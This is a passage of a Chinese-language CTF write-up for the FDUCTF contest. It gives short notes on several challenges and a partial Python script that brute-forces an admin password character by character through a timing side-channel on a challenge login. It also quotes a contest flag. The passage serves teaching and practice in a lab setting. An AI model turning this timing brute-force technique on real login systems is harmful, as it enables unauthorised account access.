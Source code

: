 算一下偏移量，需要减去 $450$，那就直接 `r 13` 然后 `w 13 <value-450>` 就可以了。

> fductf{3e034345-8341-4794-8d65-17ed93fe44cf}

## 丫丫历险记3 [OMITTED]

没看题

## HH历险记 [FAILED]

看题了，临比赛结束一小时去学习了一下格式化字符串的 PWN，基本思路明白了，但是有点细节还是没太搞懂，所以也没做出来。

## HH历险记2 [OMITTED]

没看题

## HH历险记3 [OMITTED]

没看题

## GhostWrite [OMITTED]

没看题

## FUN_FILE [OMITTED]

没看题

## 草率的毕业设计

显然 username 是 `admin`，然后 salt 、加密实现和密码字符集都给出了，直接暴力每一位密码即可。

## 无比健壮的毕业设计

salt 未知，加密迭代很多次，那显然会比较慢吧，函数名也提示了。用一个比较稳定的网络，每位跑数次取请求所需的平均时间，哪一位用时最长就说明哪一位的密码对上了。因为比赛平台不太稳定，可以写个脚本，全自动化暴力并保存结果，下次启动直接跳过已经计算好时间开销的枚举字符。

```python
import os
import json

def bf_measure_time(test_time=5):
    import time
    username = 'admin'
    sured_password = 'fductf{'
    session = requests.Session()
    while len(sured_password) < 18:
        step = len(sured_password)
        if os.path.exists(f'passwdch_time_map_{step}.json'):
            passwdch_time_map = json.load(open(f'passwdch_time_map_{step}.json', 'r'))
        else:
            passwdch_time_map = {}
        max_time, max_time_ch = 0, None
        for passwd_ch in tqdm(string.ascii_letters + string.digits + "_{}"):
            if passwd_ch in passwdch_time_map:
                mean_time_cost = passwdch_time_map[passwd_ch]
                if mean_time_cost > max_time:
                    max_time, max_time_ch = mean_time_cost, passwd_ch
                continue
            password = sured_password + passwd_ch
            password += 'a' * (18 - len(password))
            mean_time_cost = []
            for _ in range(test_time):
```